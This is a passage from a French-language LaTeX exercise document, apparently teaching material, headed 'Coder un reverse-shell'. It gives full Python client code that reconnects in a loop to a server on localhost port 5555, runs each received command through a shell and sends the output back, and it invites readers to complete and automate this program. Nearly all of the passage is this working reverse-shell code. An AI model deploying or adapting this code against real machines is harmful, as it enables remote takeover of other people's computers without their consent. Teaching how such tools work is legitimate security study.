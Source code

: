 \section{Coder un reverse-shell}

Le second exercice que nous vous proposons est de compléter, améliorer et automatiser nos programmes client et server qui permettent un reverse-shell. Voici notre code :

\begin{center}
\begin{adjustbox}{center,caption={Code client},label={Code client},nofloat=figure}

\setlstipython
\begin{lstlisting}
#! /usr/bin/env python3
""" Les envoies se font en bytes donc on encode les str en b"""
import socket, subprocess, os, sys
from time import sleep
host = "localhost"
port = 5555

connection_with_server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)		#creation du socket

while connection_with_server.connect_ex((host, port)) != 0 : #connexion au serveur à l'infini
	sleep(2)
																
print ("Established connection with the server on the port "+str(port))

end = ""

while end != b"end": 															#b pour bytes
	command = connection_with_server.recv(1024)
	if command.decode() == "end" :
		connection_with_server.send(command)
		end = command
		
	cmd = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)  
																				#Popen -> création d'un programme fils dans un nouveau processus
																				#subprocess.PIPE -> rediretion vers le flux standard
	if command[:2].decode() == 'cd':
		command = command.decode()								
		if os.path.exists(str(command[3:])):									#vérification du chemin
			os.chdir(str(command[3:]))											#changement de dossier
			out = b"directory changed"
	else:
		out = cmd.stdout.read() + cmd.stderr.read()	 
	connection_with_server.send(out + b"\nEnd of the results\n ")
print ("Close of the session")
connection_with_server.close()
\end{lstlisting}
\end{adjustbox}
\end{center}

